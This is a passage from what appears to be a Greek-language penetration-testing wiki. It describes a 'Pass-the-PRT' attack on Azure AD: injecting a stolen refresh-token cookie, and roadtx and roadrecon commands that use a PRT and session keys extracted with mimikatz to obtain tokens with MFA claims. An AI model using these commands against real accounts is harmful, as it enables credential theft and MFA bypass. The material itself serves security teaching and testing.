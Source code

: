 * Πηγαίνετε στο [https://login.microsoftonline.com](https://login.microsoftonline.com), καθαρίστε όλα τα cookies για το login.microsoftonline.com και εισάγετε ένα νέο cookie.
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
* Στη συνέχεια, πηγαίνετε στο [https://portal.azure.com](https://portal.azure.com)

{% hint style="danger" %}
Το υπόλοιπο θα πρέπει να είναι τα προεπιλεγμένα. Βεβαιωθείτε ότι μπορείτε να ανανεώσετε τη σελίδα και το cookie δεν εξαφανίζεται, αν το κάνει, μπορεί να έχετε κάνει λάθος και θα πρέπει να περάσετε ξανά από τη διαδικασία. Αν δεν το κάνει, θα είστε εντάξει.
{% endhint %}

#### Επιλογή 2 - roadrecon χρησιμοποιώντας PRT

* Ανανεώστε πρώτα το PRT, το οποίο θα αποθηκευτεί στο `roadtx.prt`:

{% code overflow="wrap" %}
```bash
roadtx prt -a renew --prt <PRT From mimikatz> --prt-sessionkey <clear key from mimikatz>
```
{% endcode %}

* Τώρα μπορούμε να **ζητήσουμε tokens** χρησιμοποιώντας τον διαδραστικό περιηγητή με `roadtx browserprtauth`. Αν χρησιμοποιήσουμε την εντολή `roadtx describe`, βλέπουμε ότι το access token περιλαμβάνει μια αξίωση MFA επειδή το PRT που χρησιμοποίησα σε αυτή την περίπτωση είχε επίσης μια αξίωση MFA.
```bash
roadtx browserprtauth
roadtx describe < .roadtools_auth
```
<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

#### Επιλογή 3 - roadrecon χρησιμοποιώντας παραγόμενα κλειδιά

Έχοντας το πλαίσιο και το παραγόμενο κλειδί που εξήχθη από το mimikatz, είναι δυνατόν να χρησιμοποιηθεί το roadrecon για να παραχθεί ένα νέο υπογεγραμμένο cookie με:

{% code overflow="wrap" %}
```bash
roadrecon auth --prt-cookie <cookie> --prt-context <context> --derives-key <derived key>
```
{% endcode %}

## Αναφορές

* [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)
* [https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/)
* [https://www.youtube.com/watch?v=x609c-MUZ\_g](https://www.youtube.com/watch?v=x609c-MUZ\_g)
